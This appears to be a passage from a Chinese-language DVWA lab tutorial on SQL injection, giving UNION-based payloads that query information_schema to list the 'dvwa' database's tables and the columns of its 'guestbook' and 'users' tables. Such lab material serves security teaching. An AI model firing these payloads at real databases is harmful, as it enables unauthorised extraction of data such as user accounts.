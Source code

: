 - 获取数据库中的表

  - 对于数据库5.0以上的版本，存在information_schema表，这张数据表保存了Mysql服务器所有数据库的信息，如数据库名，数据库的表等信息；
    输入 table_name, 1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='dvwa')#

    <img src="img\sql-9.jpg" alt="sql-9" style="zoom: 67%;" />

-  获取表中的字段名；

  - 1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='guestbook')#

  <img src="img\sql-10.jpg" alt="sql-10" style="zoom:50%;" />

  - 1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users')#

  <img src="img\sql-11.jpg" alt="sql-11" style="zoom:50%;" />
